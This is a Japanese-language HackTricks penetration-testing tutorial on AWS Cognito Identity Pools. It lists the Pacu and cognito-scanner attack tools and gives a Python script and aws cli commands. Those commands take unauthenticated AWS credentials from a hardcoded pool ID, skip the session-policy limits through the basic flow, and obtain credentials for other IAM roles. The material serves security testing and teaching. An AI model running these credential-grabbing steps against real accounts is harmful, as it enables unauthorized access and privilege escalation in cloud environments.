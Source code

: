 # Cognito Identity Pools

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

他のHackTricksをサポートする方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Identity Poolを使用すると、ユーザーは**一時的なAWSクレデンシャルを取得してAWSサービスにアクセス**できます。例えばAmazon S3やDynamoDBなどです。Identity Poolは匿名のゲストユーザーをサポートするだけでなく、以下のアイデンティティプロバイダーを使用してIdentity Poolのユーザー認証を行うことができます:

* Amazon Cognitoユーザープール
* Facebook、Google、Login with Amazon、Appleでサインインするソーシャルサインイン
* OpenID Connect (OIDC) プロバイダー
* SAMLアイデンティティプロバイダー
* 開発者認証されたアイデンティティ

### Cognito Sync

Identity Poolセッションを生成するには、まず**Identity IDを生成する**必要があります。このIdentity IDは、そのユーザーのセッションの**識別子**です。これらの識別子は、最大1MBのキーバリューペアを格納できる最大20のデータセットを持つことができます。

これは、常に同じIdentity IDを使用するユーザーの情報を**保持するのに役立ちます**。

さらに、**cognito-sync**サービスは、この情報（データセット内の情報、ストリームでの情報送信、SNSメッセージなど）を**管理し同期する**ことを可能にするサービスです。

### ペネトレーションテストのためのツール

* [Pacu](https://github.com/RhinoSecurityLabs/pacu)は、AWSのエクスプロイトフレームワークで、"cognito\_\_enum"と"cognito\_\_attack"モジュールが含まれており、アカウント内のすべてのCognitoアセットの列挙と、弱い設定、アクセス制御に使用されるユーザー属性などのフラグ付けを自動化し、また、MFAサポートを含むユーザー作成と、変更可能なカスタム属性、使用可能なIdentity Poolクレデンシャル、idトークン内の引き受け可能なロールに基づく権限昇格を自動化します。

モジュールの機能の説明については、[ブログ投稿](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2)のパート2を参照してください。インストール手順については、メインの[Pacu](https://github.com/RhinoSecurityLabs/pacu)ページを参照してください。

#### 使用法

特定のIdentity PoolとUser Poolクライアントに対してユーザー作成とすべてのprivescベクトルを試みるcognito\_\_attackの使用例：
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
```
Sample cognito__enumの使用例は、現在のAWSアカウントで見えるすべてのユーザープール、ユーザープールクライアント、アイデンティティプール、ユーザーなどを収集するためのものです:
```
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) は、Pythonで書かれたCLIツールで、Cognitoに対するさまざまな攻撃を実装しています。これには、望ましくないアカウント作成やアイデンティティプールのエスカレーションが含まれます。

#### インストール
```bash
$ pip install cognito-scanner
```
#### 使用方法
```bash
$ cognito-scanner --help
```
詳細については、https://github.com/padok-team/cognito-scanner をご覧ください。

## IAMロールへのアクセス

### 認証されていない

攻撃者がCognitoアプリで**AWSクレデンシャルを取得する**ために知る必要があるのは、**Identity Pool ID**のみで、この**IDはアプリケーション**内にハードコードされている必要があります。IDは次のようになります：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（ブルートフォース攻撃は不可能です）。

{% hint style="success" %}
デフォルトで作成される**IAM Cognito認証されていないロール**は `Cognito_<Identity Pool name>Unauth_Role` と呼ばれます。
{% endhint %}

ハードコードされたIdentity Pools IDを見つけ、それが認証されていないユーザーを許可している場合、以下を使用してAWSクレデンシャルを取得できます：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
または、以下の**aws cli コマンド**を使用することもできます：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
デフォルトでは、認証されていないCognito **ユーザーは、ポリシーを介して割り当てられた場合でも、いかなる権限も持つことはできません**。次のセクションを確認してください。
{% endhint %}

### 強化認証フローと基本認証フロー

前のセクションでは、**デフォルトの強化認証フロー**に従いました。このフローは、生成されたIAMロールセッションに[**セッションポリシー**](../../aws-basic-information/#session-policies)を設定し、制限的にします。このポリシーでは、ロールが他のサービスにアクセスできたとしても、[**このリストのサービスのみを使用することが許可されます**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)。

しかし、**Identityプールで「基本（クラシック）フロー」が有効になっている場合**、ユーザーはそのフローを使用してセッションを取得でき、**その制限的なセッションポリシーは適用されません**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
この**エラー**が発生した場合、**基本フローが有効になっていない（デフォルト）**ことを意味します。

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

IAMクレデンシャルを持っている場合は、[どのようなアクセス権があるかを確認](../../#whoami)し、[権限昇格を試みる](../../aws-privilege-escalation/)べきです。

### 認証済み

{% hint style="info" %}
**認証済みユーザー**にはおそらく**異なる権限が付与される**ので、アプリ内で**サインアップできる**場合は、それを試みて新しいクレデンシャルを取得してください。
{% endhint %}

**認証済みユーザーがIdentity Poolにアクセスするためのロール**も存在する可能性があります。

これには、**identity provider**へのアクセスが必要になるかもしれません。それが**Cognito User Pool**である場合、デフォルトの振る舞いを悪用して**自分自身で新しいユーザーを作成する**ことができるかもしれません。

{% hint style="success" %}
**IAM Cognito認証済みロールはデフォルトで** `Cognito_<Identity Pool name>Auth_Role` **と呼ばれます**
{% endhint %}

とにかく、**次の例**は、Identity Poolにアクセスするために使用される**Cognito User Pool**内で既にログインしていることを前提としています（他のタイプのidentity providerも設定されている可能性を忘れないでください）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# Use the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
ユーザーがログインしているidentity providerに応じて、または**ユーザーに依存して**異なるIAMロールを**設定することが可能です**（claimsを使用）。したがって、同じまたは異なるproviderを通じて異なるユーザーにアクセスできる場合は、ログインして**すべてのIAMロールにアクセスする価値がある**かもしれません。
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手してください。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを**共有してください**。

</details>
